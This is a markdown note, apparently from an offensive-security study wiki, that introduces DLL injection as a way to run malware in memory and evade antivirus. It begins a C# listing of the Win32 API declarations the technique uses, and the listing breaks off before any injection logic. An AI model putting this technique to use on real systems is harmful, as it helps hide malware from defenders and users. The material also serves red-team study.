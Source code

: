 ```yaml
---
title: Process injection and migration
tags:
  - breach
  - operations
  - process
  - injection
  - migration
  - csharp
  - win32api
  - api
  - hollow
  - antivirus
  - evasion
---
```


## Baby's first DLL injection

A common tactic to execute malware without it touching disk is to inject it into
a target process. This also helps us hide our malware from antiviruses or manual
user inspection. This technique is super common, however, so if security
software like Windows Defender is enabled, this will likely be detected.
Regardless, the C# .NET code provided below uses various Win32 API methods to
inject a malicious DLL into a target process:

```csharp
﻿using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace Inject;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
```